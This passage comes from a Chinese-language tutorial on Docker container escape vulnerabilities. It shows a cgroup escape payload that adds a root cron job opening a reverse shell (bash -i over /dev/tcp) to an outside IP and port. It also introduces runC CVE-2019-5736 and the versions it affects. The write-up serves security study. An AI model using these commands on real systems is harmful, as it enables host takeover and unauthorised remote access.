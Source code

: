 ![image-20231008151559045](Docker逃逸漏洞案例.assets/image-20231008151559045.png)

如上图所示，成功获取到宿主机根目录的flag.txt的内容，同理，我们将上面poc中的echo中的命令修改为反弹shell的命令，即可进行反弹shell，获得宿主机的权限。

```text
echo "echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root">> /cmd 
chmod a+x /cmd 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs" 
```

![image-20231008151609076](Docker逃逸漏洞案例.assets/image-20231008151609076.png)

## **runC逃逸-CVE-2019-5736**

cve-2019-5736属于docker环境逃逸类型漏洞，该漏洞利用runC文件被覆盖，当管理员通过exec进入容器的时候，触发payload，从而达到逃逸  。个人理解这种方式利用的条件其实比较苛刻，主要苛刻在宿主机中必须有管理员使用exec进入当前docker环境，如果宿主机没有在运行EXP后进入该容器的话，是无法进行逃逸的。

### **影响版本**

```text
docker version <=18.09.2 RunC version <=1.0-rc6
```
